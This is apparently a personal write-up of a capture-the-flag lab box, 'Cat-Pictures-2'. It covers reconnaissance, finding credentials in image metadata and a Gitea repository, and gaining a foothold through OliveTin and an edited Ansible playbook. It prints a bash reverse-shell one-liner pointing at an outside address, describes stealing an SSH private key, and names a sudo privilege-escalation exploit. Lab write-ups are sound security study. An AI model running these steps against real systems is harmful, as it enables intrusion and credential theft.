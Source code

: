 # Cat-Pictures-2 Helped-Through


Name: Cat-Pictures-2
Date:  13/07/2023
Difficulty:  Easy
Goals:  
- Warm up
- Git pwn tooling, tooled up
Learnt:
Beyond Root:
- Update H4ddix B4dger for an hour
- Ansible for Vulnerable Machines outlined in [[Absolute-Helped-Through]] and [[Response-Helped-Through]]


![](f5054e97620f168c7b5088c85ab1d6e4.jpg)

- [[Cat-Pictures-2-Notes.md]]
- [[Cat-Pictures-2-CMD-by-CMDs.md]]

Due to time and the amount of it either this will get swept under into the pile and I am trying to not start new boxes and to cut it off at the pass and finish with [Alh4zr3d](https://www.twitch.tv/videos/1869386033) while I build my Windows VM for [[Absolute-Helped-Through]] and [[Response-Helped-Through]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Cat-Pictures-2/Screenshots/ping.png)

Robots.txt
```
Disallow: /data/
Disallow: /dist/
Disallow: /docs/
Disallow: /php/
Disallow: /plugins/
Disallow: /src/
Disallow: /uploads/
```

Gitea is running on 3000
```
|     Set-Cookie: i_like_gitea=e9214322330dc1c9; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=ZEVmBSA53-Qcd_iTesJat_fu4p06MTY4ODIzMjE0NjY0NTE5MTM3OQ; Path=/; Expires=Sun, 02 Jul 2023 17:22:26 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
```

git pwning tools
git log HEAD root and lychee usage
https://github.com/electerious/Lychee.git
1337 Olive Tin Version: 2022-10-19 - https://docs.olivetin.app/
8080 SimpleHTTP/0.6 Python/3.6.9

Once again data in the pictures...
![](exifisgood.png)

Credentials and references to ansible
![1080](ctfy.png)

Gitea is self-hosted git service
![](gitearoot.png)

A like hocky 
![](giteasignin.png)

The first flag is in this repository
![](flag1.png)

No low hanging fruit
![](nocredreuse.png)

[Olive Tin](https://www.olivetin.app/) to run shell commands

```
bash -i >& /dev/tcp/10.11.3.193/6969 0>&1
```

It is running this playbook
```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: whoami
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

Editting the playbook
![](6969.png)

To get a shell, I then copied the id_rsa and got a ssh shell 
![](shellonbox.png)

Tried Polkit because I never use it and Al talks about Kernel exploits, but it failed. Al uses [CtpGibbon SAMEdit](https://github.com/CptGibbon/CVE-2021-3156) to root the box. All the other written write ups exploit the vulnerable version of sudo. So I am glad I used this to start off the day.

![](cptgibbonsamedit.png)

## Beyond Root

[Git Dumper](https://github.com/arthaud/git-dumper) - requires pip, but dumped some stuff
![](dumpedsomestuff.png)

[Trufflehog](https://github.com/trufflesecurity/trufflehog) can check organisation, github, s3 buckets, etc although it was not very useful in this scenario.